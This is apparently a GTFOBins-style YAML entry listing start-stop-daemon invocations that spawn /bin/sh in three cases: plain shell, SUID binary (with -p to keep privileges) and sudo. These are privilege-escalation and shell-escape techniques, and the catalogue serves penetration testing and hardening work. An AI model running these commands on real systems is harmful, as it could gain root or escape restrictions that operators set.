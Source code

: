 ```yaml
---
functions:
  shell:
    - code: start-stop-daemon -n $RANDOM -S -x /bin/sh
  suid:
    - code: |
        ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
  sudo:
    - code: |
        sudo start-stop-daemon -n $RANDOM -S -x /bin/sh
---
```

